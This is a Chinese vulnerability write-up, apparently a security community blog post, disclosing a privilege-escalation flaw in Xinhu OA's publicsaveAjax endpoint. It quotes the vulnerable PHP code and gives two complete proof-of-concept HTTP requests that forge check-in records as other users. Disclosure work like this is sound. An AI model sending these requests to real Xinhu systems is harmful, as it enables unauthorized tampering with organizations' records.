





# 从先知文章复现到信呼OA数据库后门0day发掘-先知社区

> **来源**: https://xz.aliyun.com/news/18657  
> **文章ID**: 18657

---

项目地址：<https://github.com/rainrocka/xinhu>  
感谢<https://xz.aliyun.com/news/18575> 这篇博客，我的这个洞就是在复现他的漏洞的过程中发现的。

### 漏洞分析

来看webmain/webmainAction.php这个文件，之前先知精选的文章提到过：  
  
也就是说这个webmainAction.php是和路由结构处理有关的，我在阅读的时候发现了一个函数：

```
/**
    *	公共保存页面
    */
    public function publicsaveAjax()
    {
        $this->iszclogin();
        $msg	= '';
        $success= false;
        $table	= $this->rock->xssrepstr($this->rock->iconvsql($this->post('tablename_postabc','',1),1));
        $id		= (int)$this->post('id');
        $oldrs  = false;
        if(isempt($table))return returnerror('错误表名');
        if(!$this->checksignature($this->post('tablename_postabc')))return returnerror('无效请求');
        $db		= m($table);
        $where	= "`id`='$id'";
        if($id==0)$where='';
        $modenum 			= $this->post('sysmodenumabc');
        $flow 				= null;
        $msgerrortpl 		= $this->post('msgerrortpl');
        $aftersavea			= $this->post('aftersaveaction', 'publicaftersave');
        $beforesavea		= $this->post('beforesaveaction', 'publicbeforesave');
        $submditfi 			= $this->rock->jm->base64decode($this->post('submitfields_postabc'));
        $editrecord			= $this->post('editrecord_postabc'); //是否保存修改记录
        $fileid 			= $this->post('fileid', '0');
        $isturn 			= (int)$this->post('isturn_postabc', '1');
        $int_type 			= ','.$this->post('int_filestype').',';
        $md5_type 			= ','.$this->post('md5_filestype').',';
        
        if(isempt($submditfi))return returnerror('无效字段');
        
        if($modenum!='')$flow = m('flow')->initflow($modenum);
        $fields	= explode(',', $submditfi);
        
        $uaarr	= array();
        foreach($fields as $field){
            $field	= $this->rock->xssrepstr($field);
            $val	= $this->post(''.$field.'');
            $type	= $this->post(''.$field.'_fieldstype');
            $boa	= true;
            if($this->contain($int_type, ','.$field.',')){
                $val = (int)$val;
            }
            if($this->contain($md5_type, ','.$field.',')){
                if($val=='')$boa=false;
                $val = md5($val);
            }
            if($boa)$uaarr[$field]=$val;
        }
        
        $otherfields		= $this->post('otherfields');
        $addotherfields		= $this->post('add_otherfields');
        $editotherfields	= $this->post('edit_otherfields');
        if($id == 0)$otherfields.=','.$addotherfields.'';
        if($id > 0)$otherfields.=','.$editotherfields.'';
        if($otherfields != ''){
            $otherfields = str_replace(array('{now}','{date}','{admin}','{adminid}'),array($this->now,date('Y-m-d'),$this->adminname,$this->adminid),$otherfields);
            if(contain($otherfields,'{companyid}'))$otherfields = str_replace('{companyid}',m('admin')->getcompanyid(),$otherfields);
            $fiarsse = explode(',', $otherfields);
            foreach($fiarsse as $ffes){
                if($ffes!=''){
                    $ssare = explode('=', $ffes);
                    $lea	= substr($ssare[1],0,1);
                    if($lea == '['){
                        $uaarr[$ssare[0]]=$uaarr[substr($ssare[1],1,-1)];
                    }else{
                        $uaarr[$ssare[0]]=$ssare[1];
                    }
                }
            }
        }
        
        $ss 	= '';
        if(!$this->isempt($beforesavea)){
            if(method_exists($this, $beforesavea)){
                $befa = $this->$beforesavea($table, $uaarr, $id);
                if(is_string($befa)){
                    $ss = $befa;
                }else{
                    if(isset($befa['msg']))$ss=$befa['msg'];
                    if(isset($befa['rows'])){
                        foreach($befa['rows'] as $bk=>$bv)$uaarr[$bk]=$bv;
                    }
                }
            }	
        }
        $msg 	= $ss;	
        $idadd 	= false;
        if($msg == ''){
            if($id>0 && $editrecord=='true')$oldrs = $db->getone($id);
            $sbo	= $db->record($uaarr, $where);
            if($sbo){
                $msg	= '处理成功';
                $success= true;
                if($id == 0){
                    $id = $this->db->insert_id();
                    $idadd = true;
                }
                if($fileid !='0')m('file')->addfile($fileid,$table,$id, $modenum);
                if(!$this->isempt($aftersavea)){
                    if(method_exists($this, $aftersavea)){
                        $this->$aftersavea($table, $uaarr, $id, $idadd);
                    }
                }
                //保存修改记录
                if($oldrs && $flow!=null){
                    $newrs = $db->getone($id);
                    m('edit')->recordstr($flow->fieldsarr,$flow->mtable, $id, $oldrs, $newrs, 2);
                }
            }else{
                $msg = 'mysqlerr:'.$this->db->lasterror();
            }
        }
        
        if($msg=='')$msg='处理失败';
        $arr = array('success'=>$success,'msg'=>$msg,'id'=>$id);
        echo json_encode($arr);
    }
```

这一下引起了我的警觉，因为按照之前的分析，信呼OA是没有什么全局的权限拦截器的，在这里有一个名叫`publicsaveAjax`的函数很有可能会存在问题。  
逐块分析一下这个函数：

```
$this->iszclogin();
        $msg	= '';
        $success= false;
        $table	= $this->rock->xssrepstr($this->rock->iconvsql($this->post('tablename_postabc','',1),1));
        $id		= (int)$this->post('id');
        $oldrs  = false;
        if(isempt($table))return returnerror('错误表名');
        if(!$this->checksignature($this->post('tablename_postabc')))return returnerror('无效请求');
```

这里主要是验证登录并进行xss的防御，这注定这个洞只能后台利用，杀伤力远不如先知精选的那个文章。  
中间进行了一大堆的变量赋值，这里的逻辑比较繁琐，建议读者仔细捋一遍，我们这里直接来看结果：

```
if($msg == ''){
            if($id>0 && $editrecord=='true')$oldrs = $db->getone($id);
            $sbo	= $db->record($uaarr, $where);
            if($sbo){
                $msg	= '处理成功';
                $success= true;
                if($id == 0){
                    $id = $this->db->insert_id();
                    $idadd = true;
                }
                if($fileid !='0')m('file')->addfile($fileid,$table,$id, $modenum);
                if(!$this->isempt($aftersavea)){
                    if(method_exists($this, $aftersavea)){
                        $this->$aftersavea($table, $uaarr, $id, $idadd);
                    }
                }
                //保存修改记录
                if($oldrs && $flow!=null){
                    $newrs = $db->getone($id);
                    m('edit')->recordstr($flow->fieldsarr,$flow->mtable, $id, $oldrs, $newrs, 2);
                }
            }else{
                $msg = 'mysqlerr:'.$this->db->lasterror();
            }
        }
        
        if($msg=='')$msg='处理失败';
        $arr = array('success'=>$success,'msg'=>$msg,'id'=>$id);
        echo json_encode($arr);
```

他这里没有去判断当前登录的用户是什么权限，直接去将数据插入到了数据库中。那我们合理推测，这个方法是存在垂直+水平越权的，同时他可以接受任意的字段，因此可以构成数据库后门。

根据之前先知文章的路由理论，我们构造一下路由参数：  
由于直接处于webmain下，因此m的值是index，d的值为空。调用的是`publicsaveAjax`方法，因此a的值是publicsave，ajaxbool的值是true。  
所以传参应该是：`a=publicsave&m=index&d=&ajaxbool=true`。

### 漏洞验证

理论成立，实践开始，用签到的功能来测试垂直+水平越权。  
在信呼OA中，只有管理员有手动签到的权限（可以参考前端页面），我们接下来尝试向`publicsaveAjax`发包来验证漏洞：  
首先登录一个ID为12名字是奶龙的用户，并发包来手动签到：

```
POST /xinhu-master/index.php?a=publicsave&m=index&d=&ajaxbool=true&rnd=746864 HTTP/1.1
Host: localhost
Cookie: Admin-Token=d16b68d0baae48739ab4acdb03e9efd5; cc_cookie=%7B%22categories%22%3A%5B%22necessary%22%2C%22analytics%22%5D%2C%22revision%22%3A0%2C%22data%22%3Anull%2C%22consentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22consentId%22%3A%2236b540b5-c17a-4173-83a2-170ea77a1320%22%2C%22services%22%3A%7B%22necessary%22%3A%5B%5D%2C%22analytics%22%3A%5B%5D%7D%2C%22languageCode%22%3A%22en%22%2C%22lastConsentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22expirationTime%22%3A1770462153096%7D; XXL_JOB_LOGIN_IDENTITY=7b226964223a342c22757365726e616d65223a22707974686f6b222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a302c227065726d697373696f6e223a22227d; deviceid=1755080639470; xinhu_ca_rempass=0; Hm_lvt_8b02a318fde5831da10426656a43d03c=1755252209; _ga=GA1.1.1429381663.1755252210; username=123; password=123; _ga_73YJPXJTLX=GS2.1.s1755270081$o3$g0$t1755270081$j60$l0$h0; PHPSESSID=nodu6qcvjjoh34ckm9ee7nh2s4; xinhu_mo_adminid=rg0ll0xgz0xvx0rr0ld0rg0xgl0rr0fg0fs0xgd0zl0fg0zs0fl04; xinhu_ca_adminuser=lbz
Origin: http://localhost
Referer: http://localhost/xinhu-master/
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Content-Length: 364

id=0&recename=%E5%A5%B6%E9%BE%99&=&uid=12&dkdt=2025-08-07+10%3A09%3A00&explain=&otherfields=type%3D3%2Coptdt%3D%7Bnow%7D&tablename_postabc=yd0vj0dm0jmd0yd0vm0jje0jjv01&submitfields_postabc=ZGtkdCx1aWQsZXhwbGFpbg%3A%3A&aftersaveaction=&beforesaveaction=&editrecord_postabc=false&sysmodenumabc=&sys_signature=a934e59c687e71ec0526e65df13e1d9f&sys_timeature=1755396567
```

  
去管理员端进行查看，发现签到成功，构成了垂直越权：  
  
然后再去验证水平越权，去数据库中查看发现有一个ID为8的用户叫赵子龙（奶龙和赵子龙都是龙）  
发包：

```
POST /xinhu-master/index.php?a=publicsave&m=index&d=&ajaxbool=true&rnd=746864 HTTP/1.1
Host: localhost
Cookie: Admin-Token=d16b68d0baae48739ab4acdb03e9efd5; cc_cookie=%7B%22categories%22%3A%5B%22necessary%22%2C%22analytics%22%5D%2C%22revision%22%3A0%2C%22data%22%3Anull%2C%22consentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22consentId%22%3A%2236b540b5-c17a-4173-83a2-170ea77a1320%22%2C%22services%22%3A%7B%22necessary%22%3A%5B%5D%2C%22analytics%22%3A%5B%5D%7D%2C%22languageCode%22%3A%22en%22%2C%22lastConsentTimestamp%22%3A%222025-08-09T11%3A02%3A33.095Z%22%2C%22expirationTime%22%3A1770462153096%7D; XXL_JOB_LOGIN_IDENTITY=7b226964223a342c22757365726e616d65223a22707974686f6b222c2270617373776f7264223a226531306164633339343962613539616262653536653035376632306638383365222c22726f6c65223a302c227065726d697373696f6e223a22227d; deviceid=1755080639470; xinhu_ca_rempass=0; Hm_lvt_8b02a318fde5831da10426656a43d03c=1755252209; _ga=GA1.1.1429381663.1755252210; username=123; password=123; _ga_73YJPXJTLX=GS2.1.s1755270081$o3$g0$t1755270081$j60$l0$h0; PHPSESSID=nodu6qcvjjoh34ckm9ee7nh2s4; xinhu_mo_adminid=rg0ll0xgz0xvx0rr0ld0rg0xgl0rr0fg0fs0xgd0zl0fg0zs0fl04; xinhu_ca_adminuser=lbz
Origin: http://localhost
Referer: http://localhost/xinhu-master/
Accept: */*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
sec-ch-ua: "Not;A=Brand";v="99", "Google Chrome";v="139", "Chromium";v="139"
Sec-Fetch-Mode: cors
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
sec-ch-ua-mobile: ?0
X-Requested-With: XMLHttpRequest
Sec-Fetch-Dest: empty
sec-ch-ua-platform: "Windows"
Accept-Language: zh-CN,zh;q=0.9
Sec-Fetch-Site: same-origin
Accept-Encoding: gzip, deflate, br, zstd
Content-Length: 364

id=0&recename=%E8%B5%B5%E5%AD%90%E9%BE%99&=&uid=7&dkdt=2025-08-07+10%3A09%3A00&explain=&otherfields=type%3D3%2Coptdt%3D%7Bnow%7D&tablename_postabc=yd0vj0dm0jmd0yd0vm0jje0jjv01&submitfields_postabc=ZGtkdCx1aWQsZXhwbGFpbg%3A%3A&aftersaveaction=&beforesaveaction=&editrecord_postabc=false&sysmodenumabc=&sys_signature=a934e59c687e71ec0526e65df13e1d9f&sys_timeature=1755396567
```

  
在管理员端进行查看发现赵子龙签到成功，证明了垂直+水平越权：  


### 总结

这个漏洞没有先知精选大佬挖的前台sql注入那么通用，但是也同样有较高的威胁。同时我们可以发现一个问题，信呼OA这类PHP的项目没有Spring中的Spring Security或Shiro这种比较方便的垂直权限管理和水平分组权限管理功能，因此较易出现越权问题。  
感兴趣的师傅可以继续去挖一挖，或许还能挖出来越权。  
本漏洞已经报送至vuldb，期待CVE编号ing。  
参考链接：<https://github.com/rainrocka/xinhu/issues/9>
